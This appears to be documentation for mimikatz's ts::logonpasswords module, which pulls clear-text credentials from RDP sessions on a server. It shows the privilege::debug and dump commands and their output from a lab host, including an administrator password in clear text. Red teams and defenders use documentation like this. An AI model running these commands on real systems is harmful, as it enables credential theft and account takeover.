 # logonpasswords

This module extracts clear text credentials from RDP running sessions \(server side\).

It supports RDP clients utilizing [**mstscax.dll**](https://docs.microsoft.com/en-us/windows/win32/termserv/mstscax) like mRemoteNG, Remote Desktop Manager, RDCMan and of course the Windows native one. It also supports X11 RDP clients such as rdesktop and freerdp.

```text
mimikatz # privilege::debug
Privilege '20' OK
```

```text
mimikatz # ts::logonpasswords
!!! Warning: false positives can be listed !!!

   * Web Credentials? *
   Domain      : hacklab.local
   UserName    : Administrator

         * Marshaled: [BinaryBlob] e7 03 00 00 00 00 00 00 e4 a2 a6 9d 83 c5 bd 0c 3a a7 72 4f 88 dc d3 b4 e0 bf 11 ca 71 11 65 cc 16 c0 58 5a 56 49 1b eb 12 b1 e5 a1 d2 25 e6 8c 08 62 92 aa 04 45 1e 3b
   * Web Credentials? *
   Domain      : hacklab.local
   UserName    : Administrator

         * Marshaled: [BinaryBlob] e7 03 00 00 00 00 00 00 e4 a2 a6 9d 83 c5 bd 0c 3a a7 72 4f 88 dc d3 b4 e0 bf 11 ca 71 11 65 cc 16 c0 58 5a 56 49 1b eb 12 b1 e5 a1 d2 25 e6 8c 08 62 92 aa 04 45 1e 3b
   Domain      : hacklab
   UserName    : Administrator
   Password/Pin: Super_SecretPass1!
```

_\(Demonstration target is a Windows Server 2016 Essentials\)_

